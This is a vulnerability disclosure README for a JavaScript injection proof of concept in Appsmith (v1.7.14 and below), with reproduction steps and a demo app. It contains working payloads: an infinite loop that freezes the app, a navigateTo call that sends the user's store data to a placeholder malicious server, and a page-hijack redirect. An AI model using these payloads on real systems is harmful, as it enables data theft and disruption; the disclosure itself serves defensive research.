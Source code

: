 # Appsmith-Js-Injection-POC


## Vuln Detail
- Vulnerability type: Js injection

- Affected product: Appsmith

- Affected version: v1.7.14 and below

An attacker injects a poc into the data loaded by the list in some way, depending on the way in which the application binds the data to the list, for example
1. the attacker saves the POC to the data source via the application
2. the victim accesses the application
3. the application loads the POC data from the data source and binds it to the list component
4. the list component triggers a POC because the `currentItem` property is called in the js code, causing the aspsmith application to perform an unintended behaviour of the user

These unintended behaviours include:

- The victim is unable to use the aspsmith application properly

`'+ (function(){while(1){}})() +'`


- Data leakage. Appsmith disables many js functions, such as the inability to execute xhr functions to initiate requests, which avoids many security issues, however, through this js injection vulnerability, an attacker could call appsmith's built-in function - 'navigateTo' - to send user data to a malicious server in the form of parameters

`'+ navigateTo('http://<malicious_server>', {'q': JSON.stringify(appsmith.store)}, 'NEW_WINDOW') +'`


- Page Hijacking.

`'+ navigateTo('http://<malicious_server>') +'`

Simple demo application:
- live demo: https://app.appsmith.com/app/my-first-application/page1-630ebec37e1d9179c33a1950
- demo application: demo_application/My first application.json


You can reproduce the vulnerability in this way.

1. Enter poc in any input component on the right
2. Click on the button of the first item in the list on the left

![demo-application-overview.png](./img/demo-application-overview.png)

